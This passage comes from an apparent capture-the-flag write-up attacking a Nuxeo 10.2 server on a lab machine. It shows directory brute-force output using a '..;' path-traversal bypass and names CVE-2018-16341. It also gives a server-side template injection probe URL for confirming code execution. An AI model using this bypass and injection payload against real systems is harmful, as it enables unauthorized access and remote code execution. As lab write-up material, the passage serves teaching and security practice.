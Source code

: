 ```
401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/ws
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/incl => /nuxeo/Maintenance/..;/incl/
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/analytics => /nuxeo/Maintenance/..;/analytics/
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/ui => /nuxeo/Maintenance/..;/ui/
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/Maintenance => /nuxeo/Maintenance/..;/Maintenance/
401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/viewer
401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/oauth
401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/authentication
200      GET       94l      272w     2456c http://10.10.11.115/maintenance/..;/page_not_found.jsp
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/permissions => /nuxeo/Maintenance/..;/permissions/
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/pagination => /nuxeo/Maintenance/..;/pagination/
401      GET        4l       16w      220c http://10.10.11.115/maintenance/..;/startup
302      GET        0l        0w        0c http://10.10.11.115/maintenance/..;/viewers => /nuxeo/Maintenance/..;/viewers/
[####################] - 3m     59998/59998   0s      found:35      errors:0      
[####################] - 3m     59998/59998   296/s   http://10.10.11.115/maintenance/..; 

```

Of the things that returned 200, one was `/maintenance/..;/login.jsp`, which presents the Nuxeo login form:

![image-20220127143725835](https://0xdfimages.gitlab.io/img/image-20220127143725835.png)

### Nuxeo Vulnerability

#### Background

The bottom of the login page says Nuxeo is running version 10.2. Some Googling for “Nuxeo 10 exploit” leads to [this repo](https://github.com/mpgn/CVE-2018-16341) about CVE-2018-16341, which the author calls “Nuxeo Authentication Bypass Remote Code Execution”.

There is a server-side template injection in the Java application, which means if I can include a string like `${-7+7}` somewhere that it will be parsed as code, then I can get Java running and therefore get remote code execution.

#### Testing

To test for this, the repo suggests visiting the url:

```

http://127.0.0.1:8080/nuxeo/login.jsp/pwn${-7+7}.xhtml"

```

There’s been code execution if `${-7+7}` is replaced with a `0`.
